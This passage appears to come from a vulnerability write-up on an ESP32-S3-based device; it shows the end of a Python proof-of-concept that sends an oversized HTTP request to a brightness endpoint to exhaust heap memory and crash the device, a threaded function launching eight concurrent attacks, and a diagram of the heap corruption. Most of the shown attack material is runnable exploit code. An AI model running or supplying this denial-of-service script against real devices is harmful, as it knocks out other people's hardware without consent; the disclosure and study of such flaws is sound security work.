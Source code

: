 ```python
        b"Connection: close\r\n"
        b"\r\n"
        b'{"brightness": 1.0}'
    )

    sock.sendall(request)

    # Try to receive response (device may crash)
    try:
        response = sock.recv(4096)
        print(f"[*] Device responded: {len(response)} bytes")
    except:
        print(f"[+] Device stopped responding (likely crashed)")

    sock.close()

# Multiple concurrent attacks
import threading
import time

def concurrent_memory_attack(target_ip):
    """Rapid-fire attacks to exhaust heap through multiple String allocations"""
    threads = []
    for i in range(8):
        t = threading.Thread(target=send_oom_attack, args=(target_ip,))
        t.daemon = True
        threads.append(t)
        t.start()

    for t in threads:
        t.join(timeout=5)
```

### Memory Layout Before/After Attack

```
BEFORE ATTACK:
┌──────────────────────────────────────────────┐
│         ESP32-S3 Heap (8MB total)            │
├──────────────────────────────────────────────┤
│ [Used: ~2MB]  [Free: ~6MB]                   │
│                                              │
│ String objects:  ~100 bytes                  │
│ WebSocket buf:   ~4KB                        │
│ JSON parsing:    ~2KB per request            │
└──────────────────────────────────────────────┘

ATTACK REQUEST ARRIVES (Content-Length: 2GB):
  String::reserve(2000000000) called
  ↓ Attempts realloc of 2GB
  ↓ Fails (not enough heap)
  ↓ Buffer pointer corrupted or invalid

AFTER FAILED ALLOCATION:
┌──────────────────────────────────────────────┐
│         ESP32-S3 Heap (8MB total)            │
├──────────────────────────────────────────────┤
│ [Used: ~2MB + corruption]                    │
│ [Free: depleted/fragmented]                  │
│                                              │
│ STRING OBJECT STATE:                         │
│  buffer -> ??? (corrupted)                   │
│  capacity -> 2GB (set but allocation failed) │
```